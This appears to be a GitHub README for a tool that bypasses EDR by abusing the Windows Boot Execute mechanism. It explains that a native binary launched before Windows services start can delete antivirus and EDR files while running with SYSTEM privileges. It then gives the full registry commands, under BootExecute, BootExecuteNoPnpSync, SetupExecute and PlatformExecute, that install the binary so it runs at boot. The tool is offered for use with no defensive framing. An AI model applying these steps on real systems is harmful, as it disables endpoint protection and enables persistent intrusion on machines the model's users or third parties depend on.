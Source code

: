 # BootExecute EDR Bypass

Boot Execute allows native applications—executables with the NtProcessStartup entry point and dependencies solely on ntdll.dll—to run prior to the complete initialization of the Windows operating system. This occurs even before Windows services are launched. Historically, attackers have exploited this mechanism as a rudimentary persistence method. However, utilizing this feature requires administrative privileges, both to modify the corresponding registry key and to place the executable within the %SystemRoot%\System32 directory.

Because these native applications execute before security mechanisms are fully operational, this presents an opportunity to disrupt antivirus (AV) and endpoint detection and response (EDR) systems by deleting critical application files as we run with SYSTEM privileges.

The code contained within the project is an example demonstration of exploiting this "feature" to disable Endpoint Security Products before they have a chance to stop us.

## Usage

1. Compile binary
2. Place BEB.exe in C:\Windows\System32\
3. Add either of the following registry keys to launch your binary before win32k subsytem initialization

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "BootExecute" /t REG_MULTI_SZ /d "autocheck autochk *\0BEB" /f
```

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "BootExecuteNoPnpSync" /t REG_MULTI_SZ /d "BEB" /f
```

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "SetupExecute" /t REG_MULTI_SZ /d "BEB" /f
```

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "PlatformExecute" /t REG_MULTI_SZ /d "BEB" /f
```
